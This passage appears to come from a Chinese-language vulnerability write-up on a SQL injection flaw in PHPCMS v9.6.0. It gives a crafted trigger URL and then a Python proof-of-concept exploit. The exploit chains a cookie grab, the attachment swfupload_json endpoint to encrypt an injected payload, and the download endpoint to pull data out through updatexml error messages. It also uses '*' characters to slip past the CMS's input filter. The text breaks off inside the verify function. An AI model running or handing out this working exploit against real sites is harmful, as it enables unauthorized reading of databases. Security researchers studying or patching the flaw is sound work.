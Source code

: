 第三步访问链接: 

    http://localhost/index.php?m=content&c=down&a=init&a_k=a4ccFfjVcOKqub4EbK66IZvqFPm2zuSaSmrcy-Hzq7RM4eTO9J3Zw7ZUiI8LX5dup9GJWjFQmTjxfJpdp6cvIm5Ps9-HKDXh7eS9Ir1lnZhfrmEtJ8RF9eyjB-GNmojU0fZ4yEacluZaEf3lR_oiBhIGb6mVggA9uaZx3Q6UO1BPW6LDm3M
    
即可触发sql注入漏洞:

exp:

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
"""
phpcmsv9.6.0 sqli verify and attach poc
"""

import requests
import re
from urllib import quote

TIMEOUT = 3


def poc(url,payload):
    url = url if '://' in url else 'http://' + url
    url = url.split('#')[0].split('?')[0].rstrip('/').rstrip('/index.php')

    # use "*" to bypass filter "safe_replace()" in PHPCMS
    #payload = "&id=%*27 and updat*exml(1,con*cat(1,(us*er())),1)%23&modelid=1&catid=1&m=1&f="
    
    cookies = {}
    #print 'step1'
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)
    #print 'step1',step1
    for c in requests.get(step1, timeout=TIMEOUT).cookies:
        if c.name[-7:] == '_siteid':
            cookie_head = c.name[:6]
            cookies[cookie_head + '_userid'] = c.value
            cookies[c.name] = c.value
            break
    else:
        return False
    
    step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    #print 'step2:',step2,cookies
    for c in requests.get(step2, cookies=cookies, timeout=TIMEOUT).cookies:
        if c.name[-9:] == '_att_json':
            enc_payload = c.value
            break
    else:
        return False

    #print c
    step3 = url + '/index.php?m=content&c=down&a_k=' + enc_payload
    #print 'step3:',step3
    r = requests.get(step3, cookies=cookies, timeout=TIMEOUT)
    result = re.findall('XPATH syntax error: \'(.*?)\'', r.content)
    if result[0]:
        return result[0]


def verify(url):
    print 'verify poc start'
    payload = "&id=%*27 and updatexml(1,concat(1,(select user())),1)%23&modelid=1&catid=1&m=1&f="
```